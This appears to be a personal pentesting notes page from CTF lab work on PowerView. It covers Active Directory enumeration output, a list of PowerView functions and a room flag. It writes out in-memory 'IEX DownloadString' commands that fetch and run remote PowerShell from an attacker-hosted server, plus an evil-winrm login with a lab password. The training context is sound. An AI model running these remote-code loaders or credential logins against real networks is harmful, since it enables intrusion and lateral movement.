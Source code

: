 # PowerView

### [103 functions in PowerView.ps1](#103-functions-in-powerviewps1-1)
```
cat PowerView.ps1 | grep ^funct |nl
gc .\PowerView.ps1 | sls ^func
```
### [Check specific function in PowerShell script](#check-specific-function-in-powershell-script-1)

## [Post-Exploitation Basics](https://tryhackme.com/room/postexploit)

### [Enumerate the domain users with "Get-NetUser | select cn"](#enumerate-the-domain-users-with-get-netuser--select-cn-1)

### [Enumerate the domain groups with "Get-NetGroup *admin*"](#enumerate-the-domain-groups-with-get-netgroup-admin-1)

### [Useful cheatsheet from HarmJ0y](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)



```

```

### 
```

```

### Examples

### Check specific function in PowerShell script
```
PS C:\> gc .\PowerView.ps1 | sls ^func.*Get-NetUser

function Get-NetUser {
```

### Enumerate the domain users with "Get-NetUser | select cn"
```
PS C:\> Get-NetUser | select cn

cn                  
--
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{P0W3RV13W_FTW}
ssh
```

### Enumerate the domain groups with "Get-NetGroup *admin*"
Get-NetGroup -GroupName *admin*
```
PS C:\> Get-NetGroup *admin*
Administrators 
Hyper-V Administrators 
Storage Replica Administrators
Schema Admins
Enterprise Admins
Domain Admins
Key Admins
Enterprise Key Admins
DnsAdmins
PS C:\>
```

### 
```

```

### 103 functions in PowerView.ps1
### gc .\PowerView.ps1 | sls ^func
```
$ cat PowerView.ps1 | grep ^funct |nl
     1  function New-InMemoryModule {
     2  function func {
     3  function Add-Win32Type
     4  function.
     5  function before returning from the attributed method.
     6  function psenum {
     7  function field {
     8  function struct
     9  function Get-IniContent {
    10  function Export-PowerViewCSV {
    11  function Resolve-IPAddress {
    12  function ConvertTo-SID {
    13  function ConvertFrom-SID {
    14  function Convert-ADName {
    15  function ConvertFrom-UACValue {
    16  function Get-PrincipalContext {
    17  function Add-RemoteConnection {
    18  function Remove-RemoteConnection {
    19  function Invoke-UserImpersonation {
    20  function Invoke-RevertToSelf {
    21  function Get-DomainSPNTicket {
    22  function Invoke-Kerberoast {
    23  function Get-PathAcl {
    24  function Convert-LDAPProperty {
    25  function Get-DomainSearcher {
    26  function Convert-DNSRecord {
    27  function Get-DomainDNSZone {
    28  function Get-DomainDNSRecord {
    29  function Get-Domain {
    30  function Get-DomainController {
    31  function Get-Forest {
    32  function Get-ForestDomain {
    33  function Get-ForestGlobalCatalog {
    34  function Get-ForestSchemaClass {
    35  function Find-DomainObjectPropertyOutlier {
    36  function Get-DomainUser {
    37  function New-DomainUser {
    38  function Set-DomainUserPassword {
    39  function Get-DomainUserEvent {
    40  function Get-DomainGUIDMap {
    41  function Get-DomainComputer {
    42  function Get-DomainObject {
    43  function Get-DomainObjectAttributeHistory {
    44  function Get-DomainObjectLinkedAttributeHistory {
    45  function Set-DomainObject {
    46  function ConvertFrom-LDAPLogonHours {
    47  function New-ADObjectAccessControlEntry {
    48  function Set-DomainObjectOwner {
    49  function Get-DomainObjectAcl {
    50  function Add-DomainObjectAcl {
    51  function Remove-DomainObjectAcl {
    52  function Find-InterestingDomainAcl {
    53  function Get-DomainOU {
    54  function Get-DomainSite {
    55  function Get-DomainSubnet {
    56  function Get-DomainSID {
    57  function Get-DomainGroup {
    58  function New-DomainGroup {
    59  function Get-DomainManagedSecurityGroup {
    60  function Get-DomainGroupMember {
    61  function Get-DomainGroupMemberDeleted {
    62  function Add-DomainGroupMember {
    63  function Remove-DomainGroupMember {
    64  function Get-DomainFileServer {
    65  function Get-DomainDFSShare {
    66  function Get-GptTmpl {
    67  function Get-GroupsXML {
    68  function Get-DomainGPO {
    69  function Get-DomainGPOLocalGroup {
    70  function Get-DomainGPOUserLocalGroupMapping {
    71  function Get-DomainGPOComputerLocalGroupMapping {
    72  function Get-DomainPolicyData {
    73  function Get-NetLocalGroup {
    74  function Get-NetLocalGroupMember {
    75  function Get-NetShare {
    76  function Get-NetLoggedon {
    77  function Get-NetSession {
    78  function Get-RegLoggedOn {
    79  function Get-NetRDPSession {
    80  function Test-AdminAccess {
    81  function Get-NetComputerSiteName {
    82  function Get-WMIRegProxy {
    83  function Get-WMIRegLastLoggedOn {
    84  function Get-WMIRegCachedRDPConnection {
    85  function Get-WMIRegMountedDrive {
    86  function Get-WMIProcess {
    87  function Find-InterestingFile {
    88  function New-ThreadedFunction {
    89  function Find-DomainUserLocation {
    90  function enumerates any active user sessions with Get-NetSession/Get-NetLoggedon
    91  function Find-DomainProcess {
    92  function enumerates any current processes running with Get-WMIProcess,
    93  function Find-DomainUserEvent {
    94  function Find-DomainShare {
    95  function Find-InterestingDomainShareFile {
    96  function Find-LocalAdminAccess {
    97  function Find-DomainLocalGroupMember {
    98  function Get-DomainTrust {
    99  function Get-ForestTrust {
   100  function Get-DomainForeignUser {
   101  function Get-DomainForeignGroupMember {
   102  function Get-DomainTrustMapping {
   103  function Get-GPODelegation {
```

### Some more in-memory PS injections
https://gist.github.com/bad-bit/b7157c624a820f3d982e38a8b628f590
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/Get-System.ps1');
```

# local
```
cd ~/tools
python -m http.server 80
```

# remote
```
evil-winrm -i $ip -u svc-alfresco -p s3rvice
menu
IEX (New-Object Net.WebClient).DownloadString('http://$myip/PowerView.ps1');
menu
```


### 
```
PS C:\> Get-DomainUser
Exception calling "FindAll" with "0" argument(s): "Unknown error (0x80005000)"
At C:\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : COMException
```